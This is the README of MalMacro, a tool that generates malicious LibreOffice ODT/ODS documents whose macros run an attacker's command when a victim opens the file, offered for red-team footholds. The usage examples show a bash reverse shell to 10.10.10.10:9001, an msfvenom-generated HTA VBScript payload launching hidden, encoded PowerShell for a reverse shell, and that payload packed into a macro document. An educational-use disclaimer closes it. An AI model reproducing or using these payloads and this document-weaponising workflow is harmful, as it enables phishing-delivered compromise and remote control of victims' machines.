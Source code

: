 ## Malicious VBA Macro Generator
One general way to gain a foothold on a user's machine in a red-teaming engagement is the use of delivering a document that has a macro enabled that executes a command, which is triggered upon the user opening the document. This program generates one such document in ODT format (I may add Word, and Excel documents later).

### Update 2
MalMacro now supports ODS files.

### Update 1
MalMacro now supports commands of arbitrary length. This has particular application to obfuscated powershell commands, which can be extremely lengthy.

Examples:

```bash
$ python malmacro.py
Usage: malmacro.py <odt|ods> <code_to_execute>

$ malmacro.py odt "bash -i >& /dev/tcp/10.10.10.10/9001 0>&1"

# malmacro.odt generated
$ ls
LICENSE  macro.ods  macro.odt  malmacro.odt  malmacro.py  README.md

# Generate hta payload with msfvenom:
$  msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f hta-psh
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 7378 bytes
<script language="VBScript">
  window.moveTo -4000, -4000
  Set blx9LNamq = CreateObject("Wscript.Shell")
  Set dhC = CreateObject("Scripting.FileSystemObject")
  For each path in Split(blx9LNamq.ExpandEnvironmentStrings("%PSModulePath%"),";")
    If dhC.FileExists(path + "\..\powershell.exe") Then
      blx9LNamq.Run "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAO<SNIP>AHIAdAAoACQAcwApADsA",0
      Exit For
    End If
  Next
  window.close()
</script>

# Take powershell code to make malicious macro document
$ ./malmacro.py ods 'powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAG<SNIP>'

```

## Disclaimer
This project is made for demonstrative and educational purposes only. I'm not liable for how you use it.
